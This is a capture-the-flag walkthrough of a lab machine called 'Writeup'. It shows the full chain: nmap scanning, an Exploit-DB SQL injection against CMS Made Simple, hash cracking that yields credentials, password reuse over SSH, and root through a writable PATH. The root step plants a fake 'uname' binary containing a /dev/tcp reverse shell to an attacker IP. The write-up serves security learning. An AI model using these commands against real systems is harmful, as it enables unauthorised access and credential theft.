




Target: 10.10.10.138  

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.138         

Nmap scan report for 10.10.10.138
Host is up (0.033s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.138  



checking robots.txt



checking /writeup



checking src:/writeup



### Findings:Looking for attack vectors

Search for exploits for cms made simpl and its version.

## Foothold:

searching for the cms version in google 


downloading the exploit
```
wget https://www.exploit-db.com/raw/46635
```

editing exploit to run in python3

[edit guide link](https://gist.github.com/pdelteil/6ebac2290a6fb33eea1af194485a22b1)

running the exploit
```
$ python3 46635.py -u http://10.10.10.138/writeup

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

preparing hash
```
$ vim nhash.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

cracking the hash
```
$ hashcat -m 20 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt

$ cat crack.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

Loot:

`jkr:raykayjay9`

testing for password re-use
```
$ ssh jkr@10.10.10.138                                  

jkr@writeup:~$ id

uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

```
jkr@writeup:~$ cat user.txt 

<redacted>
```


## Priv Escalations:

enumerating with pspy while attempting an ssh login
```
jkr@writeup:~$ ./pspy32

<snip>
2021/07/05 00:59:20 CMD: UID=0    PID=26989  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new                                  
2021/07/05 00:59:20 CMD: UID=0    PID=26990  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/05 00:59:20 CMD: UID=0    PID=26991  | /bin/sh /etc/update-motd.d/10-uname 
<snip>
```

enumerating file
```
jkr@writeup:~$ cat /etc/update-motd.d/10-uname

#!/bin/sh
uname -rnsom
```

enumerating with linpeas
```
<snip>
[+] PATH
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses     
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games     
New path exported: /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin
<snip>
```

exploiting writable path
```
jkr@writeup:~$ cd /tmp

echo "bash -i >& /dev/tcp/10.10.14.10/9001 0>&1" > uname

chmod 777 uname

cp uname /usr/local/bin/
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

attempting an ssh login
```
$ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
```

```
# id 

uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt

<redacted>
```
